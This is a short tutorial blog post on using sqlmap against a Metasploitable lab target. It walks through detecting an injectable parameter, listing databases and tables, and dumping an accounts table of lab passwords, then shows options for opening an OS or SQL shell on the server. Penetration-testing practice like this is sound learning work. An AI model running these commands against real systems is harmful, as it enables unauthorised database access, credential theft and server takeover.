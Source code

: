 +++
categories = ["Metasploitable", "SQL"]
date = "2021-02-15"
title = "SQL Map"
type = ["posts","post"]
[ author ]
  name = "nazori"
+++

sqlmap is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers.

First we have to do a fail request to get the url we want to inject on. Then we go to the terminal to start the program:

```
sqlmap -u "our url"

...

[04:16:07] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[04:16:07] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[04:16:07] [INFO] target URL appears to have 5 columns in query
[04:16:08] [INFO] GET parameter 'username' is 'MySQL UNION query (NULL) - 1 to 20 columns' injectable

```
This will show information about the parameters that can be injected. Now we are going to navigate inside the databases:


* Databases 

```
sqlmap -u "our url" --dbs

...

available databases [7]:
[*] dvwa
[*] information_schema
[*] metasploit
[*] mysql
[*] owasp10
[*] tikiwiki
[*] tikiwiki195

```
* Tables on database

```
sqlmap -u "our url" --tables -D owasp10

...

Database: owasp10
[6 tables]
+----------------+
| accounts       |
| blogs_table    |
| captured_data  |
| credit_cards   |
| hitlog         |
| pen_test_tools |
+----------------+

```
* The columns

```
sqlmap -u "our url" --columns -T accounts -D owasp10

...

Database: owasp10
Table: accounts
[5 columns]
+-------------+------------+
| Column      | Type       |
+-------------+------------+
| cid         | int(11)    |
| is_admin    | varchar(5) |
| mysignature | text       |
| password    | text       |
| username    | text       |
+-------------+------------+

```

* Info on the table

```
sqlmap -u "our url" -T accounts -D owasp10 --dump

...

Database: owasp10
Table: accounts
[17 entries]
+-----+----------+--------------+----------+-----------------------------+
| cid | is_admin | password     | username | mysignature                 |
+-----+----------+--------------+----------+-----------------------------+
| 1   | TRUE     | adminpass    | admin    | Monkey!                     |
| 2   | TRUE     | somepassword | adrian   | Zombie Films Rock!          |
| 3   | FALSE    | monkey       | john     | I like the smell of confunk |
| 4   | FALSE    | password     | jeremy   | d1373 1337 speak            |
| 5   | FALSE    | password     | bryce    | I Love SANS                 |
| 6   | FALSE    | samurai      | samurai  | Carving Fools               |
| 7   | FALSE    | password     | jim      | Jim Rome is Burning         |
| 8   | FALSE    | password     | bobby    | Hank is my dad              |
| 9   | FALSE    | password     | simba    | I am a cat                  |
| 10  | FALSE    | password     | dreveil  | Preparation H               |
| 11  | FALSE    | password     | scotty   | Scotty Do                   |
| 12  | FALSE    | password     | cal      | Go Wildcats                 |
| 13  | FALSE    | password     | john     | Do the Duggie!              |
| 14  | FALSE    | 42           | kevin    | Doug Adams rocks            |
| 15  | FALSE    | set          | dave     | Bet on S.E.T. FTW           |
| 16  | FALSE    | pentest      | ed       | Commandline KungFu anyone?  |
| 17  | NULL     | jeje         | nazori   | lol                         |
+-----+----------+--------------+----------+-----------------------------+


```

##### More commands

Who is the user.

`sqlmap -u "our url" --current-user`

Which database are we injecting on.

`sqlmap -u "our url" --current-db`

##### Inject Shell

Creates a shell on the OS (ASP, ASPX, JSP, PHP). Normally the servers don't allow to upload php shells.

`sqlmap -u "our url" --os-shell`

Creates a shell inside the SQL interpreter so we can make sql requests more comfortable.

`sqlmap -u "our url" --sql-shell`

